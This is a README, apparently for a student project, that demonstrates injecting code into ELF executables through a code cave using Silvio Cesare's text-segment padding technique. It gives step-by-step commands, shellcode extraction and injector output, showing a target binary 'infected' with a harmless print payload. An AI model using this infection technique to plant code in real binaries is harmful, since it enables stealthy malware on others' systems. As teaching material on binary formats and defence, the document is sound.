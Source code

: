 ELF FRAMEWORK
===============================
In the framework of the project, the format of the file elf was studied.
The subtleties of working with this file in the context of arm architecture for android and macOS.

* Go deep into development of C++ library class for building embedded code for elf files with the possibility of further developing the program for macOS arm in the hope to increase the availability of materials about that system for such non-trivial tasks. 
* In-depth look into the search for vulnerabilities in elf files and especially the so-called code cave as a prime example of such vulnerabilities.
* As a result, we developed a tutorial that embeds executable code into an elf file using Silvio's algorithm. Its creation formed the basis of the software part of the project and is the most difficult part of it.

Demo
-------

**0. Prepare the environment. To run the image use the `docker.sh` script.ds**
```shell
docker build -t codecave . ;
./docker.sh 
```
_Output_ 
```s
root@26628e5b0128:/codecave# [random hash after @]
```

**1. Build the malicious code in assembler, which we're going to inject**
```shell
nasm -f elf -o helloMSU.o helloMSU.asm;ld -m elf_i386 -o helloMSU helloMSU.o
```

**2. Check that the malicious code outputs `Hello, MSU!!!` to the console**
```shell
./helloMSU
```
_Output:_ 
```
Hello, MSU!!!
Segmentation fault
```

**3. Extract the byte code and copy it to codeCavePayload.h**
```shell
for i in `objdump -d ./helloMSU | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$' `; do echo -n "\\x$i" ; done | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
```
_Output:_
```
"\xeb\x19\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\x59\xba\x0f\x00\x00\x00\xcd\x80\xeb\x19\xba\x00\x00\x00\x00\xe8\xe2\xff\xff\xff\x48\x65\x6c\x6c\x6f\x2c\x20\x4d\x53\x55\x21\x21\x21\x0d\x0a"
```
**4. Build the `Code Cave` (with updated codeCavePayload.h)**
```shell
make
```
_Output:_
```
...
gcc -no-pie -DBUILD32 -c codeCave.c -o codeCave32.o
gcc -no-pie -DBUILD64 -c codeCave.c -o codeCave64.o
gcc -no-pie -c common.c -o common.o
gcc -no-pie main.o codeCave32.o codeCave64.o common.o -o codeCave
```
**5. Build the source program**
```shell
gcc -no-pie -Wl,-z,noseparate-code helloHSE.c -o helloHSE
```

**6. Check that the source program outputs `Hello HSE!` to the console**
```shell
./helloHSE
```
_Output:_
```
Hello HSE!
```

**7. I solemnly swear I am up to no bad! Start infect!**
```shell
./codeCave ./helloHSE
```
_Output:_
```
[+] Reading headers
[+] x86-64bit ELF
[+] codeCavePayload size: 52 bytes
[+] text segment found
[+] Padding size: 1844
[+] Original entry point: 0x4004e0
[+] New entry point: 0x4006dc
[+] Change text segment's p_filesz and p_memsz
[+] Change sh_size of the last section of the text segment
[+] Initialize codeCavePayload
[+] Construct the infected file
[+] Write the codeCavePayload
[+] Replace the original file
[+] Done!
```

**8. Check the source program again**
```shell
./helloHSE
```
_Output:_
```
Hello, MSU!!!
Hello HSE!
```

**Mischief Managed!**

Based on [Silvio Algorithm](https://en.wikipedia.org/wiki/Silvio_Cesare) classic .text section padding technique.